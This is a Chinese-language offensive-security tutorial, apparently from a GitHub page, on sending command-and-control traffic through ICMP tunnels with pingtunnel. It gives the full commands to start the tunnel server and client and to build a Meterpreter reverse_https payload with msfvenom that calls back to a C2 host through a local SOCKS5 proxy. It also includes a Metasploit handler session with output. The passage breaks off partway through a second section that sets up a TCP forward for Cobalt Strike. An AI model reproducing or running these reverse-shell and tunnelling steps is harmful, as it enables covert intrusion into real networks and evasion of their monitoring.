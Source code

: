##### ICMP隧道转发socks上线metasploit

* 准备好一个具有公网IP的服务器，root权限运行以下命令，启动ICMP隧道服务端

```
./pingtunnel -type server -noprint 1 -nolog 1
```

ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道

```
pingtunnel.exe -type client -l 127.0.0.1:6688 -s icmpserver_ip -sock5 1 -nolog 1 -noprint 1

# 该命令的意思是icmp隧道客户端监听127.0.0.1:6688启动socks5服务，通过连接到icmpserver_ip的icmp隧道，由icmpserver转发socks5代理请求到目的地址
```

生成支持socks5代理的反向payload的meterpreter并上传到ICMP隧道客户端执行即可上线

```
msfvenom -p windows/meterpreter/reverse_https LHOST=c2_server_ip LPORT=8443 HttpProxyType=SOCKS HttpProxyHost=127.0.0.1 HttpProxyPort=6688 -f exe -o meterpreter.exe
```

启动msf监听，等待meterpreter执行上线

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf5 exploit(multi/handler) > set lport 8443
lport => 8443
msf5 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8443

meterpreter > getuid
Server username: DESKTOP-test0\admin
```

##### ICMP隧道转发TCP上线cobaltstrike

* 准备好一个具有公网IP的服务器，root权限运行以下命令，启动ICMP隧道服务端

```
./pingtunnel -type server -noprint 1 -nolog 1
```

ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道

```
pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1

# 该命令的意思是icmp隧道客户端监听127.0.0.1:9999，通过连接到icmpserver_ip的icmp隧道，将127.0.0.1:9999收到的tcp数据包转发到c2_server_ip:7777
```
